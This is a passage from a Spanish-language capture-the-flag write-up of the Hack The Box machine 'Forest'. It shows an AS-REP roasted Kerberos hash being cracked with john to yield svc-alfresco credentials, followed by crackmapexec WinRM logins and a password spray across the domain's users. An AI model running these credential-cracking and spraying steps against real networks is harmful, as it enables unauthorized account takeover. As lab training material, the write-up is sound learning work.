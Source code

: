 - Tenemos un Hash del usuario `svc_alfresco` ya que el usuario es **ASREP Roastable**.

```bash
❯ catn hash
$krb5asrep$23$svc-alfresco@HTB.LOCAL:716b97133f6420642caaa47244cab7bf$e524765fb6fadd45ffb7c2427cd8a6485d4aa6401627b112e337aee60999241895e1fba1736cb5389b0d0738bb893ab5c480b6248d9557d4abf2d396ac85561c8210ef8658e52986463a1e35bade45d57394d63dacad45a3799f2a58286146cea55ebabe787b49bb4caeeac2ea809ab02bc491c68cf030ba26bdc1a21bf8dfa2e75d8546a09d85cfc92c81421bcd9a291a53cc6646c93372b0b633b365b46651d3d99ba6f25358c9ba04c82d4ceb52a076c33365ba69ab11a91a66eab5a228faee38f3b4709ef68c79bfdc1cf37861a192ff03b5950853a0cecf6ded74d5448e516d424e6713
```

- Ahora vamos a crakearlo. 

```bash
❯ john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 512/512 AVX512BW 16x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL)
1g 0:00:00:08 DONE (2023-06-17 18:04) 0.1116g/s 456000p/s 456000c/s 456000C/s s4553592..s3r2s1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

- Tenemos credenciales **svc-alfresco:s3rvice**.

- Y bueno podemos conectarnos con `evil-winrm` con las credenciales.

```bash
❯ crackmapexec winrm 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
SMB         10.10.10.161    5985   FOREST           [*] Windows 10.0 Build 14393 (name:FOREST) (domain:htb.local)
HTTP        10.10.10.161    5985   FOREST           [*] http://10.10.10.161:5985/wsman
WINRM       10.10.10.161    5985   FOREST           [+] htb.local\svc-alfresco:s3rvice (Pwn3d!)
```

- Antes de hacerlo para enumerar un poco mas ahora que tenemos credenciales. 

- De primeras vemos que nadie mas reutiliza la contraseña. 

```bash
❯ crackmapexec winrm 10.10.10.161 -u users -p 's3rvice'
SMB         10.10.10.161    5985   FOREST           [*] Windows 10.0 Build 14393 (name:FOREST) (domain:htb.local)
HTTP        10.10.10.161    5985   FOREST           [*] http://10.10.10.161:5985/wsman
WINRM       10.10.10.161    5985   FOREST           [-] htb.local\Administrator:s3rvice
WINRM       10.10.10.161    5985   FOREST           [-] htb.local\Guest:s3rvice
WINRM       10.10.10.161    5985   FOREST           [-] htb.local\krbtgt:s3rvice
WINRM       10.10.10.161    5985   FOREST           [-] htb.local\DefaultAccount:s3rvice
WINRM       10.10.10.161    5985   FOREST           [-] htb.local\$331000-VK4ADACQNUCA:s3rvice
WINRM       10.10.10.161    5985   FOREST           [-] htb.local\SM_2c8eef0a09b545acb:s3rvice
WINRM       10.10.10.161    5985   FOREST           [-] htb.local\SM_ca8c2ed5bdab4dc9b:s3rvice
WINRM       10.10.10.161    5985   FOREST           [-] htb.local\SM_75a538d3025e4db9a:s3rvice
WINRM       10.10.10.161    5985   FOREST           [-] htb.local\SM_681f53d4942840e18:s3rvice
WINRM       10.10.10.161    5985   FOREST           [-] htb.local\SM_1b41c9286325456bb:s3rvice
WINRM       10.10.10.161    5985   FOREST           [-] htb.local\SM_9b69f1b9d2cc45549:s3rvice
WINRM       10.10.10.161    5985   FOREST           [-] htb.local\SM_7c96b981967141ebb:s3rvice
WINRM       10.10.10.161    5985   FOREST           [-] htb.local\SM_c75ee099d0a64c91b:s3rvice
WINRM       10.10.10.161    5985   FOREST           [-] htb.local\SM_1ffab36a2f5f479cb:s3rvice
WINRM       10.10.10.161    5985   FOREST           [-] htb.local\HealthMailboxc3d7722:s3rvice
WINRM       10.10.10.161    5985   FOREST           [-] htb.local\HealthMailboxfc9daad:s3rvice
WINRM       10.10.10.161    5985   FOREST           [-] htb.local\HealthMailboxc0a90c9:s3rvice
WINRM       10.10.10.161    5985   FOREST           [-] htb.local\HealthMailbox670628e:s3rvice
WINRM       10.10.10.161    5985   FOREST           [-] htb.local\HealthMailbox968e74d:s3rvice
WINRM       10.10.10.161    5985   FOREST           [-] htb.local\HealthMailbox6ded678:s3rvice
WINRM       10.10.10.161    5985   FOREST           [-] htb.local\HealthMailbox83d6781:s3rvice
```